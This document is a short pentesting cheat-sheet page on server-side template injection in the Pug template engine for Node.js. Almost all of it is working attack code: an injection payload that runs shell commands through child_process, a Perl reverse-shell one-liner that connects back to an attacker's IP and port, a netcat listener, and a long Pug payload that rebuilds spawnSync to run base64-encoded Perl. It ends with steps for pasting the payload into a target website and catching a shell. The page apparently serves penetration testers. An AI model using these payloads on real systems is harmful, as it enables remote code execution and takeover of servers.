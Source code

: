 ```yaml
---
title: Pug Pentesting
desc: 
tags: [Pug, SSTI, Template, Web]
alts: []
render_with_liquid: false
---
```


## Server-Side Template Injection (SSTI)

```
#{2*2}
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}
```

- **Reverse Shell**

    First off, create a payload.

    ```sh
    use Socket;$i="<local-ip>";$p=<local-port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
    ```

    Encode it with Base64.  
    And start listener for getting the incoming connection.

    ```sh
    nc -lvnp 4444
    ```

    Then prepare the full payload contained the above Base64 encoded hash.

    ```sh
    h1= Hello world
    p 3*3 is #{3*3}

    #{spawn_sync = this.process.binding('spawn_sync')}
    #{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
    #{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
    #{payload='<Base64-encoded-payload>'}
    #{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
    ```

    Copy it and paste into the target website, then send a request.  
    You should now get the shell in your terminal.